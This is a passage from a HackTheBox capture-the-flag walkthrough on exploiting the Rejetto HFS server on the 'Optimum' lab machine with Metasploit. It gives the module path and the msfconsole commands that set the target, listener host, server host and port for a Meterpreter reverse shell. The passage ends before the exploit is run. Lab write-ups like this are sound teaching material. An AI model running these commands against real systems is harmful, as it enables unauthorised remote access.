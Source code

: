 <br>
![open msfconsole](https://i.imgur.com/vpAzE3P.png "open msfconsole")
<br>

It will swiftly find a result.

<br>
![found HFS exploit](https://i.imgur.com/yDipU0k.png "found HFS exploit")
<br>


Our exploit module will be found at `exploit/windows/http/rejetto_hfs_exec`

Now, we need to `use` this exploit:

`use exploit/windows/http/rejetto_hfs_exec`

Your terminal will acknowledge the exploit has been loaded by turning red.

In order to see our parameters, we enter `show options`

<br>
![HFS options](https://i.imgur.com/83BV2Ke.png "HFS Options")
<br>


If you look closely, you will see that some parameters are marked *"yes"* under the *"Required"* Column.
All of these required parameters must be set, and sometimes you need to set certain parameters that aren't even listed here.

Most of the time, your Metasploit payload will require some sort of connection back to your computer. This means the localhost IP, called `LHOST` by Metasploit, needs to be set. If you do not set this manually, Metasploit will attempt to guess what this address is, and it frequently uses the wrong one.


Since we are connected to the HackTheBox VPN, we want to use our HTB IP, not our local network address. I always forget my IP, but we can quickly run `ifconfig` in another terminal to see what our `tun0` (yours might be `tun1` or something else depending on your network setup) address is.
All HTB CTF addresses are `10.10.10.xxx` and your machine's address will be `10.10.xx.xx`

This exploit assumes we want to use the powerful Meterpreter reverse shell as our payload, and since Rejetto runs only on Windows, it will automatically use the Windows version of this payload.

Now that we know what we are doing, we can set our parameters.

* `set RHOST 10.10.10.8`  -  Tells metasploit Optimum's Address.
* `set LHOST 10.10.xx.xx`  -   Set this to your HTB IP, this is for the meterpreter connection
* `set SRVHOST 10.10.xx.xx`   -   Also set this to your HTB IP, it is for hosting the exploit file.
* `set LPORT 51000` - Set this value to your liking, but I like to use ports > 50,000 since they are dynamic. It is more unlikely that these ports will already be in use.

<br>
![Initial Rejetto Expl Parameters](https://i.imgur.com/0leSr4g.png "Inital Rejetto Expl Parameters")
<br>

